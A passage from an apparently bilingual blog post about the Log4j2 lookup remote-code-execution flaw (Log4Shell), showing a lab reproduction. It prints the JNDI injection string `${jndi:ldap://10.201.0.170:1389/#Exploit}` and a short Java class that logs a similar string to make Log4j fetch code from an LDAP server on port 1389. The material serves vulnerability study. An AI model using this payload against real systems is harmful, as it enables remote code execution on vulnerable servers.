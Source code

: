 服务端业务代码,1389是LDAP默认的端口.然后用idea启动即可,只是要把客户端的参数输出即可,比如下面的字符串是:
`${jndi:ldap://10.201.0.170:1389/#Exploit}`

[The service code, 1389 is the default port of LDAP. Then start it with idea, just output the parameters of the clint, for example, the following string is:
`${jndi:ldap://10.201.0.170:1389/#Exploit}`]:#

```
package com.github.anigkus.test;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j {

    private static Logger LOG = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        // LOG.error("${jndi:ldap://127.0.0.1:1389/#Ex}");
        LOG.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");

    }
}
```

<center>
<img src="../assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-4.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>

大概的项目结构如下,然后看执行效果.

[The approximate project structure is as follows, and then see the implementation effect. ]:#

<center>
<img src="../assets/images/talk-about-the-lookup-rce-vulnerability-of-log4j2/figure-5.png" alt="Talk about the Lookup RCE vulnerability of Log4j2" title="Github of Anigkus">
</center>
